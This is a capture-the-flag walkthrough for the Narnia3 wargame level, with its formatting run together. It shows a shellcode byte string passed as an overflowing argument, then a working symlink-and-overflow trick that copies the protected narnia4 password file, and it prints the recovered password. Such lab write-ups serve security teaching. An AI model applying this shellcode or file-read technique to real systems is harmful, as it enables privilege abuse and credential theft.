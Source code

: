 # Narnia3 - Walkthrough"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"```narnia3@narnia:/narnia$ ./narnia3 `python -c 'print "/tmp/\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f"'`error opening /tmp/1H??HST_RWT^;narnia3@narnia:/narnia$ ./narnia3 `python -c 'print "/tmp/\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"'`error openingnarnia3@narnia:/narnia$ ltrace ./narnia3 `python -c 'print "/tmp/\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"'`__libc_start_main(0x804850b, 2, 0xffffd764, 0x8048620 <unfinished ...>strcpy(0xffffd690, "/tmp/1\300H\273\321\235\226\221\320\214\227\377H\367\333ST_\231RWT^\260;\017\005"...) = 0xffffd690open("", 2, 037777777777)                                                                             = -1printf("error opening %s\n", ""error opening)                                                                      = 15exit(-1 <no return ...>+++ exited (status 255) +++```not working.Let's try another DAPA, not using a buffer overflow for riding the return address:```narnia3@narnia:/narnia$ mkdir `python -c 'print "/tmp/"+27*"A"'`narnia3@narnia:/narnia$ mkdir /tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmpnarnia3@narnia:/narnia$ ln -s /etc/narnia_pass/narnia4 `python -c 'print "/tmp/"+27*"A"+"/tmp/pass"'`narnia3@narnia:/narnia$ ls -l `python -c 'print "/tmp/"+27*"A"+"/tmp/pass"'`lrwxrwxrwx 1 narnia3 root 24 Dec 21 19:41 /tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/pass -> /etc/narnia_pass/narnia4narnia3@narnia:/narnia$ touch /tmp/passnarnia3@narnia:/narnia$ chmod 777 /tmp/passnarnia3@narnia:/narnia$ ./narnia3 `python -c 'print "/tmp/"+27*"A"+"/tmp/pass"'`narnia3@narnia:/narnia$ ls -l /tmp/pass-rwxrwxrwx 1 narnia3 root 31 Dec 21 19:43 /tmp/passnarnia3@narnia:/narnia$ ./narnia3 `python -c 'print "/tmp/"+27*"A"+"/tmp/pass"'`copied contents of /tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA/tmp/pass to a safer place... (/tmp/pass)narnia3@narnia:/narnia$ cat /tmp/passthaenohtai```YES !